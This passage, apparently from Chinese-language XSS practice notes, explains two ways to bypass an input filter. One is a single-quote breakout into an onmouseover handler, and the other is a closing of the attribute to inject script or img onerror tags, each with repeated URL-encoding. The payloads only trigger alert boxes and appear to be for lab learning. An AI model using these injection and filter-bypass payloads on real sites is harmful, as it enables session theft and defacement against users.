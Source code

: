 

## 那么,绕过方案：

方案一：

可以只用单引号闭合并使用`onmouseover`直接操作，而无需另加img和script的标签头：

```
123' onmouseover='alert(1)
```

并且编码两次（如果是在`/www/index.php/search/?words=123 `目录下传参，则需要编码三次）

![image-20220116183418847](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/04%20XSS%E5%AE%9E%E6%88%98.assets/image-20220116183418847.png)



方案二：

通过单独再多编码一次对img、script进行处理以绕过过滤：

```
123'/><script>alert(1)</script><img
首先把<script>前后标签都urlencode一次，整体encode两次

123'/><script>alert(1)</script>

123'/><img src="xxx" onerror=alert("xss")>
同理可得
```



